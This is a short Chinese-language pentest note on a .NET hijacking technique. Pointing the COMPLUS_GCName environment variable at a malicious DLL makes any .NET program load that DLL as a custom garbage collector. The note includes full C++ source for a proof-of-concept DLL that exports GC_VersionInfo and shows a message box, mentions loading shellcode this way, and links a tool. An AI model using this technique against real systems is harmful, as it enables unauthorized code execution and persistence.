	低权限用户可指定.net应用程序使用自定义垃圾收集器（GC），一个自定义GC可以以COMPLUS_GCName此环境变量指定，只需将此环境变量指向到恶意DLL，自定义GC的DLL需要一个名为GC_VersionInfo的导出表。
	下面是个弹框DLL
```cpp
#include <Windows.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

struct VersionInfo
{
    UINT32 MajorVersion;
    UINT32 MinorVersion;
    UINT32 BuildVersion;
    const char* Name;

};

extern "C" __declspec(dllexport) void GC_VersionInfo(VersionInfo * info)
{
    info->BuildVersion = 0;
    info->MinorVersion = 0;
    info->BuildVersion = 0;
    MessageBoxA(NULL, "giao", "giao", 0);
}

```
![image](/assets/Pentest_Note/master/img/686.png)

	后执行任意.net程序可加载此DLL
![image](/assets/Pentest_Note/master/img/687.png)

	当然也可以加载shellcode
	https://github.com/am0nsec/MCGC
![image](/assets/Pentest_Note/master/img/688.png)
![image](/assets/Pentest_Note/master/img/689.png)
![image](/assets/Pentest_Note/master/img/690.png)